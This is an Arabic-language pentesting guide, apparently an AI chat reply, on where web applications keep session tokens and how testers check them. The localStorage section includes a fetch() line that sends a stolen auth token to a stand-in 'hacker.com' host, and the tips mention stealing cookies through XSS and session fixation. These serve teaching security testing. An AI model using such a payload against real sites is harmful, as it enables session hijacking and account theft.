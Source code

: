 في **Pentesting**، نقطة البداية الأساسية لاكتشاف ثغرة في **Session Management** هي معرفة **أين تبحث** عن التوكنات (Session Tokens) التي يستخدمها التطبيق، وتحليل طريقة إدارتها.

---

## 🧭 أين تبحث عن ثغرات **Session Management**؟

### ١. **Cookies**
المكان الأكثر شيوعًا لتخزين Session ID أو Token هو **الكوكيز**.

#### 🔍 كيف تكتشف:
- من خلال Burp Suite أو DevTools → رؤوس الـ HTTP.
- مثال على Cookie يحتوي على Session ID:
```http
Set-Cookie: sessionid=abc123xyz; Path=/; Secure; HttpOnly
```

#### 🛠️ أدوات:
- **Burp Proxy** – لمراقبة الطلبات والاستجابات.
- **Cookie Manager Browser Extensions** – مثل EditThisCookie.

---

### ٢. **Authorization Headers**
في التطبيقات الحديثة (مثل REST APIs)، يتم استخدام توكنات JWT أو Bearer Tokens داخل رؤوس الطلب.

#### 🔍 أمثلة:
```http
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```
```http
X-Auth-Token: abc123xyz
```

#### 🛠️ أدوات:
- **Burp Repeater / Intruder**
- **Postman**

---

### ٣. **URL Parameters**
بعض التطبيقات تضع Session ID في الرابط.

#### 🔍 مثال:
```
https://target.com/dashboard?sessionid=abc123xyz
```

#### ⚠️ المشاكل:
- تسريب التوكن عبر Referer header.
- تخزينه في المتصفح history أو سجلات الخادم.

---

### ٤. **Hidden Inputs في النماذج HTML**
قد تجد Session Tokens مخزنة في نماذج HTML داخل `<input type="hidden">`.

#### 🔍 مثال:
```html
<input type="hidden" name="token" value="abc123xyz">
```

#### ✅ كيف تستغل:
- قد يُستخدم في Cross-Site Request Forgery (CSRF) إذا ما كان هناك حماية.

---

### ٥. **LocalStorage / SessionStorage (JavaScript Storage)**
في تطبيقات الويب الحديثة والـ Single Page Applications (SPA)، يتم تخزين التوكنات في ذاكرة المتصفح.

#### 🔍 مثال:
```javascript
localStorage.setItem('auth_token', 'abc123xyz');
```

#### ✅ كيف تستغل:
- باستخدام XSS لقراءة القيمة والتحكم فيها:
```javascript
fetch('https://hacker.com/steal?token=' + localStorage.getItem('auth_token'));
```

---

### ٦. **Custom Headers**
بعض التطبيقات تستخدم رؤوس غير قياسية لنقل التوكن.

#### 🔍 أمثلة:
```http
X-Session-ID: abc123xyz
Authentication-Token: xyz789
```

---

### ٧. **Mobile Apps & API Endpoints**
في التطبيقات المحمولة، يتم استخدام نفس أنواع التوكنات لكن بطريقة مختلفة:

#### 🔍 مصادر:
- SharedPreferences (Android)
- Keychain (iOS)
- API Requests (يمكن التقاطها باستخدام أدوات مثل **Burp Suite Mobile Proxy**)

---

## 🎯 الخطوات العملية في Pentesting

| الخطوة | الوصف |
|--------|-------|
| ١. جمع التوكنات | استخدم Burp لنقاط 1–6 أعلاه |
| ٢. اختبار قوة التوكن | هل هو عشوائي؟ هل يتغير؟ |
| ٣. فحص الأمان | Secure, HttpOnly, SameSite موجودة؟ |
| ٤. اختبار الثبات | هل الـ Session ID يتغير عند login/logout؟ |
| ٥. اختبار التسريب | هل التوكن في URL أو Referer؟ |
| ٦. اختبار الاستغلال | XSS, MITM, CSRF, Fixation, Prediction |

---

## 📋 Checklist: أين تبحث عن	Session Tokens؟

| المنطقة | نوع التوكن | أدوات الاكتشاف |
|---------|-------------|------------------|
| Cookies | PHPSESSID, JSESSIONID, sessionid | Burp Proxy, Browser Dev Tools |
| Headers | Authorization, Bearer, X-Token | Burp Repeater |
| URL Params | ?token=..., ?sess=... | Burp Proxy |
| Hidden Inputs | `<input type="hidden" name="token"...>` | View Source |
| JS Storage | localStorage/sessionStorage | Console in DevTools |
| Mobile Apps | Shared Preferences / Keychain | Burp Proxy for mobile traffic |
| Logs & Error Messages | تسريب التوكنات في الأخطاء | Fuzzing, Error-based enumeration |

---

## 💡 نصائح للمُخترق

- دائمًا ابدأ بتسجيل دخول واختبار كل طلب بعد ذلك.
- استخدم **Macros في Burp** لجمع الجلسات تلقائيًا.
- جرّب وضع توكنك الخاص قبل login (Session Fixation).
- ابحث عن أي تسريب للتوكن في الأخطاء أو الرسائل.
- استغل XSS إن وجدت لتسرق الكوكيز (HttpOnly = false).

---

إذا كنت عايزني أوضح لك **كيف تجمع التوكنات في كل مكان ده خطوة بخطوة باستخدام Burp** أو **كيف تشوف إذا كان التوكن ضعيف**، قول لي وانا أبدء في شرح عملي 🔥